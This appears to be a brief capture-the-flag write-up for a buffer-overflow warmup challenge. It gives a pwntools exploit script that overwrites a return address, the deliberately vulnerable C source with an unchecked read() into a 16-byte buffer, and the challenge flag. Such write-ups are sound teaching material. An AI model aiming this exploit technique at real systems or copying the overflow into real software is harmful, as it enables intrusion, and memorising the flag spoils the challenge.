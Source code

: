 ## C1: 
```js
from pwn import *
io = remote('warmup1.ctf.maplebacon.org', 1337)
io.send(b'A' * 24 + b'\x19');
```
## C2: 

```js 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vuln() {
    char buf[0x10];
    read(0, buf, 0x100);
}

int main() {
    alarm(60);
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    vuln();

    return 0;
}

void win() {
    execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
}

```
`flag: maple{buwuffer_owoverflow_UwU}`

